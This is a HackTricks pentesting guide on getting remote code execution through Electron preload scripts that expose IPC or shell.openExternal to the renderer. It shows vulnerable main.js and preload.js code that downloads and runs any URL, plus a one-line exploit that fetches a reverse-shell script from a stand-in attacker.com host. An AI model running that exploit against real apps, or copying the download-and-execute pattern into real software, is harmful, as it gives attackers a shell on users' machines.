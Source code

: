 

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


If the preload script exposes an IPC endpoint from the main.js file, the renderer process will be able to access it and if vulnerable, a RCE might be possible.

**All these examples were taken from here** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo)

# Example 1

Check how the `main.js` listens on `getUpdate` and will **download and execute any URL** passed.\
Check also how `preload.js` **exposes any IPC** event from main.

```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
	console.log('getUpdate: ' + url)
	mainWindow.webContents.downloadURL(url)
	mainWindow.download_url = url
});
  
mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
	console.log('downloads path=' + app.getPath('downloads'))
	console.log('mainWindow.download_url=' + mainWindow.download_url);
	url_parts = mainWindow.download_url.split('/')
	filename = url_parts[url_parts.length-1]
	mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
	console.log('downloadPath=' + mainWindow.downloadPath)
	// Set the save path, making Electron not to prompt a save dialog.
	item.setSavePath(mainWindow.downloadPath)

	item.on('updated', (event, state) => {
		if (state === 'interrupted') {
			console.log('Download is interrupted but can be resumed')
		}
		else if (state === 'progressing') {
			if (item.isPaused()) console.log('Download is paused')
			else console.log(`Received bytes: ${item.getReceivedBytes()}`)
		}
	})

	item.once('done', (event, state) => {
		if (state === 'completed') {
			console.log('Download successful, running update')
			fs.chmodSync(mainWindow.downloadPath, 0755);
			var child = require('child_process').execFile;
			child(mainWindow.downloadPath, function(err, data) {
				if (err) { console.error(err); return; }
				console.log(data.toString());
			});
      			}
		else console.log(`Download failed: ${state}`)
	})
}) 
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
	ipcRenderer.send(event, data);
};
```

Exploit:

```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```

# Example 2

If the preload script exposes directly to the renderer a way t call shell.openExternal its possible to obtains RCE

```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
	shell.openExternal(url);
};
```

# Example 3

Is the preload script exposes ways to completely communicate with the main process, an XSS will be able to send any event. The impact of this depends on what the main process exposes in terms of IPC.

```javascript
window.electronListen = (event, cb) => {
	ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
	ipcRenderer.send(event, data);
};
```


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


